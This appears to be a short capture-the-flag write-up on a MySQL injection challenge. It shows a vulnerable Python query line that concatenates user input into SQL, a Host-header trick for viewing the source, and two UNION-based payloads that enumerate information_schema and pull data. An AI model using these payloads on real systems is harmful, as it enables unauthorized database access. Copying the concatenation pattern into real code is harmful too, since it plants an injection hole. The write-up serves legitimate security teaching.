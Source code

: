 ## SOLUTION

You can see python code by accessing `/?source=1` with Host header set to localhost

Vulnerable piece of code:
```python
mycursor.execute("SELECT * FROM coupons WHERE code = /*" + str(form['cid']) + "*/ '1234'")
```

As seen [here](https://wiki.owasp.org/index.php/Testing_for_MySQL#Fingerprinting_MySQL) we can use syntax specific for MySQL

1. SQL: 
```sql
!'' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND '1234'=0 --
```

2. SQL: 
```sql
!'' UNION SELECT 1,Y29sdW1ueGRuYW1l,2 FROM ZnVubnkgdGFibGUgbmFtZQ WHERE '1234'=0 --
```